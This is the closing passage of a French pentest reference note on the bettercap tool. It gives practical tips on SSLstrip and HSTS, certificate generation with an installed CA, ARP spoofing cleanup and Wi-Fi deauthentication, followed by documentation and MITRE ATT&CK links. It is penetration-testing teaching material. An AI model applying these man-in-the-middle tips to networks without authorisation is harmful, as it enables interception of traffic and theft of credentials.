> - SSLstrip ne marche que si la victime tape `http://` (HSTS le bloque) : préférer la génération de certificats avec `https.proxy` + la CA installée pour les sites sans HSTS.
> - Une attaque ARP est **visible** par tout le réseau (MAC de l'attaquant dans les tables) : nettoyer avec `arp.spoof off` après le test.
> - Ne pas exposer l'UI/API sur une interface non contrôlée : par défaut l'auth est `user:pass`.
> - En Wi-Fi, `wifi.deauth` nécessite le mode moniteur et un driver d'injection : ne pas l'utiliser en même temps que `hcxdumptool` ou `aireplay-ng` sur la même carte.

---

## References

### Official

- Documentation officielle : https://www.bettercap.org/
- Documentation des modules : https://www.bettercap.org/modules/
- GitHub officiel : https://github.com/bettercap/bettercap
- Releases et changelog : https://github.com/bettercap/bettercap/releases
- Blog de l'auteur (Simone Margaritelli) : https://www.evilsocket.net/tags/bettercap/

### Security references

- MITRE ATT&CK T1557 — Adversary-in-the-Middle : https://attack.mitre.org/techniques/T1557/
- MITRE ATT&CK T1040 — Network Sniffing : https://attack.mitre.org/techniques/T1040/
- MITRE ATT&CK T1466 — Wi-Fi Disassociation (ICS) : https://attack.mitre.org/techniques/T1466/
- MITRE ATT&CK T1078 — Valid Accounts : https://attack.mitre.org/techniques/T1078/

### Community

- HackTricks — MITM (ARP spoofing) : https://book.hacktricks.xyz/pentesting-networks/3-mitm
- Bettercap wiki et discussions GitHub : https://github.com/bettercap/bettercap/discussions
- Write-ups « net-sniff » et caplets communautaires : https://github.com/bettercap/caplets

---

> [!info] **Sources**
> - [GitHub officiel bettercap](https://github.com/bettercap/bettercap)
> - [Documentation & caplets](https://www.bettercap.org/)
> - [Releases GitHub (v2.41.7, 11 mai 2026)](https://github.com/bettercap/bettercap/releases)

**Liens :** [[Tools| Outils]] · [[Techniques/ARP Spoofing et MITM| ARP Spoofing]] · [[Techniques/Attaques WiFi - Rogue AP| Rogue AP & MITM]] · [[Techniques/LLMNR-NBT-NS Poisoning| Poisoning réseau]]
